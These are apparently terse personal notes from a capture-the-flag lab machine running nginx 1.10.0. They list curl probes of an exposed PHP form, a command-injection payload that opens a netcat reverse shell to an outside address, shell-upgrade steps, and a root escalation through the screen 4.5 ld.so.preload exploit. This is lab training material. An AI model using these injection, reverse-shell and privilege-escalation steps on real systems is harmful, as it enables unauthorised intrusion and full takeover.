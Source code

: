 10.10.10.24


nginx 1.10.0

/test.html
/exposed.php

https://www.hackingarticles.in/web-application-penetration-testing-curl/
curl -v -X OPTIONS http://10.10.10.24/test.htm

curl -H "Content-Type: application/x-www-form-urlencoded; charset=utf-8"

curl -i -X POST -F 'formurl=10.10.14.7:81/test.html' -F 'submit=Go' 10.10.10.24/exposed.php

to get a reverse shell:
``n\c 10.10.14.25 444 -e /bin/ba\sh``
- use `\` to escape and ``` for command injection.

- you can see python 3 with `whereis python3`
- python3 -c 'import pty; pty.spawn("/bin/bash")'
- `stty raw -echo`
- `fg`

now compile the two files from screen-4.5 exploit on searchsploit and
- 41154.sh

cd /etc
umask 000 (is this needed?)
`screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"`
screen -ls
`/etc/rootshell` to get root


